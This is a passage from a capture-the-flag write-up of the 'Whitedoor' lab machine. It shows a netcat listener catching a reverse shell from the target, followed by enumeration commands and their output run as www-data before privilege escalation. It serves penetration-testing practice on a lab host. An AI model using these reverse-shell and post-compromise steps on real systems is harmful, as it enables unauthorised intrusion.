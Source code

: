 After submitting the data we should return to our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Whitedoor]
└─$ rlwrap nc -lvp 4321
listening on [any] 4321 ...
10.0.2.7: inverse host lookup failed: Unknown host
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.7] 41382
bash: cannot set terminal process group (521): Inappropriate ioctl for device
bash: no job control in this shell
www-data@whitedoor:/var/www/html$ 

```
A connection has been established. This gives us the possibilitiy to run commands in s shell and try to gain more privileges.
Let's first check who we are and on what machine we are currently working.
```bash
www-data@whitedoor:/var/www/html$ whoami
whoami
www-data
www-data@whitedoor:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@whitedoor:/var/www/html$ hostname
hostname
whitedoor
www-data@whitedoor:/var/www/html$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:53:e0:e9 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.7/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 444sec preferred_lft 444sec
    inet6 fe80::a00:27ff:fe53:e0e9/64 scope link 
       valid_lft forever preferred_lft forever
www-data@whitedoor:/var/www/html$ pwd
pwd
/var/www/html
www-data@whitedoor:/var/www/html$ ls
ls
blackdoor.webp
blackindex.php
index.php
whitedoor.jpg
www-data@whitedoor:/var/www/html$ ls /home -ahlR
ls /home -ahlR
/home:
total 16K
drwxr-xr-x  4 root       root       4.0K Nov 16 16:58 .
drwxr-xr-x 18 root       root       4.0K Nov 15 23:05 ..
drwxr-x---  9 Gonzalo    whiteshell 4.0K Nov 17 18:11 Gonzalo
drwxr-xr-x  9 whiteshell whiteshell 4.0K Nov 17 18:47 whiteshell
ls: cannot open directory '/home/Gonzalo': Permission denied

/home/whiteshell:
total 48K
drwxr-xr-x 9 whiteshell whiteshell 4.0K Nov 17 18:47 .
drwxr-xr-x 4 root       root       4.0K Nov 16 16:58 ..
lrwxrwxrwx 1 root       root          9 Nov 16 00:43 .bash_history -> /dev/null
```